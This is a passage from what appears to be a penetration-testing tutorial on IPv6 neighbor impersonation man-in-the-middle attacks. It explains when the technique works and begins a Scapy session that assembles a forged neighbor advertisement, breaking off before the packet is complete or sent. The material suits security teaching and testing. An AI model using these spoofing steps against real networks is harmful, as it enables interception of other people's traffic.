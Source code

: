![](<../../../.gitbook/assets/image (291) (1) (1) (1).png>)

## Exploitation

The IPv6 Neighbor Impersonation MitM attack is particularly useful when exploiting link-local autoconfiguration nodes (using the address prefix FE80::/10) and when the attack intends to exploit a limited number of IPv6 targets. Since the attacker must send ICMPv6 NS messages frequently for each victim on the network, this attack does not scale well where lots of target devices are being exploited. In wide-scale IPv6 MitM attacks, an alternate attack technique using router impersonation is recommended.

## Using Scapy

We can put this theory into practice by fabricating our own custom neighbor advertisements and unicasting them to our intended victim. For this example, we'll use Scapy to craft our malicious advertisement layer by layer:

```
>>> ls(Ether)
dst        : DestMACField         = (None)
src        : SourceMACField       = (None)
type       : XShortEnumField      = (0)
>>> ether=(Ether(dst='00:00:00:00:00:0b', src='00:00:00:00:00:0c'))
>>> ls(IPv6)
version    : BitField             = (6)
tc         : BitField             = (0)
fl         : BitField             = (0)
plen       : ShortField           = (None)
nh         : ByteEnumField        = (59)
hlim       : ByteField            = (64)
src        : SourceIP6Field       = (None)
dst        : IP6Field             = ('::1')
>>> ipv6=IPv6(src='fe80::1', dst='fe80::2')
>>> ls(ICMPv6ND_NA)
type       : ByteEnumField        = (136)
code       : ByteField            = (0)
cksum      : XShortField          = (None)
R          : BitField             = (1)
S          : BitField             = (0)
O          : BitField             = (1)
res        : XBitField            = (0)
```